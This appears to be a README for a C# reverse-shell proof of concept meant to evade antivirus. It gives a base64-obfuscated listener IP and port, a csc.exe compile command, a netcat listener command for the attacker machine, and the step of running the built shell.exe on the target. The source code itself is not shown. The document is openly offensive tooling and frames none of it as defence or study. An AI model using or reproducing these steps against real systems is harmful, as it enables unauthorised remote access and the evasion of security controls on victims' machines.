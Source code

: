# C# Reverse Shell AV Evasion POC

## Update the LHOST and LPORT in the code
- **Base64 encoded listener IP**: `MTkyLjE2OC41LjU=` → `192.168.5.5`
- **Base64 encoded listening port**: `NDQ1NQ==` → `4455`

## Compile

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe shell.cs`


## Start the Listener on the attack machiine

`nc -nvlp 4455`


## Trigger the binary on the target

`shell.exe`


